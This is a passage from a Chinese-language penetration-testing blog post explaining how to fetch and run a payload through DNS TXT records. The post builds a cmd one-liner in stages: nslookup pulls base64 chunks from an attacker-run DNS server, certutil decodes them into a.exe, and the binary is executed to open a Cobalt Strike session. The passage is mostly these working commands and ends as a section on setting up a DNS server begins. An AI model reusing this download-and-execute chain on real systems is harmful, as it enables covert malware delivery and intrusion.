 如此格式的base64字符串才可以被成功转换为二进制可执行程序，你可能还没有意识到这里有什么问题，第一个问题是字符串包含头部和尾部字符串；第二个问题是每一行的字符串最大长度是固定的，64个字符

HEX：

![](https://gitee.com/fuli009/images/raw/master/public/20221214112020.png)

好家伙，16进制这个虽然说没有头部和尾部字符串，但是可是有一堆不好处理的字符，打印其实倒也无妨，主要是这些字符占用空间太大了，这个原因直接导致我们放弃HEX，使用
base64 ，为什么这么坚决后面大家就知道了

既然我们选择了 base64 ，那我们就需要修改刚才的命令，以适应base64首尾字符串以及每行最大长度的要求

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)"  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221214112022.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112024.png)

既然输出没有问题了，可以进行转换了，这里又涉及一个问题：`certutil` 只能对文件进行转换，所以我们需要将输出字符串输出到文件中，再使用 `&&`
进行连接命令，转换字符串为二进制可执行文件

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221214112025.png)

## 0x03 执行二进制程序[+清理操作]

这里清理操作我作为可选择项来进行考虑，因为通过执行二进制程序你已经获取到了一个
shell，这样的话，你可以通过shell来进行清理，所以这里就不进行清理操作了

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe && cmd /c a.exe  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221214112027.png)

OK，成功上线 CS

* * *

文章到这里可以结束了，但是以我们团队的风格来说，一定要把这其中涉及的知识点和大坑点说清楚

## 0x04 自建DNS服务器

其实这里涉及两个场景，这也是精彩的地方，但也先不说，我们还是以上面这个案例为主来进行搭建，懂了这个，另一种场景你肯定也会懂的

DNS工作原理以及DNS服务器搭建过程可以参考下面几篇文章：
